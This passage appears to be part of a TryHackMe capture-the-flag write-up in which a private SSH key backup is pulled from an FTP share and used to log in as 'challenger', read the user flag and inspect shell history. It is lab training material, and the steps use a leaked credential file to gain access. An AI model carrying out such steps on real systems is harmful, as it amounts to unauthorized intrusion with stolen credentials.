```bash
mget id_rsa_backup? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for id_rsa_backup (2610 bytes).
226 Transfer complete.
2610 bytes received in 0.00 secs (24.1659 MB/s)
ftp> cd ..
250 Directory successfully changed.
ftp> mget user.txt
mget user.txt? y
200 PORT command successful. Consider using PASV.
550 Failed to open file.
ftp> exit
221 Goodbye.
```


<h3>ssh</h3>

```bash
:~# chmod 6-- id_rsa_backup
:~# ssh -i id_rsa_backup challenger@thm-lamp
...
challenger@thm-lamp:~$ pwd
/home/challenger
challenger@thm-lamp:~$ ls
user.txt
challenger@thm-lamp:~$ cat user.txt
THM{0649b2285e507b38b10620e57f9c8610}
```

```bash
challenger@thm-lamp:~$ ls -lah
total 40K
drwxr-xr-x 5 challenger challenger 4.0K Jun 29  2023 .
drwxr-xr-x 6 root       root       4.0K Jun 19  2023 ..
-rwxr-xr-x 1 challenger challenger   87 Jun 29  2023 .bash_history
-rwxr-xr-x 1 challenger challenger  220 Feb 25  2020 .bash_logout
-rwxr-xr-x 1 challenger challenger 3.7K Feb 25  2020 .bashrc
drwxr-xr-x 2 challenger challenger 4.0K Jun 19  2023 .cache
drwxr-xr-x 3 challenger challenger 4.0K Jun 19  2023 .local
-rwxr-xr-x 1 challenger challenger  807 Feb 25  2020 .profile
drwxr-xr-x 2 challenger challenger 4.0K Jun 22  2023 .ssh
-r-------- 1 challenger challenger   38 Jun 19  2023 user.txt
```

```bash
challenger@thm-lamp:~$ cat .bash_history
history
exit
sudo -l
exit
exit
cat setup.php 
clear
exit
cat posts.php 
exit
exit
exit
```
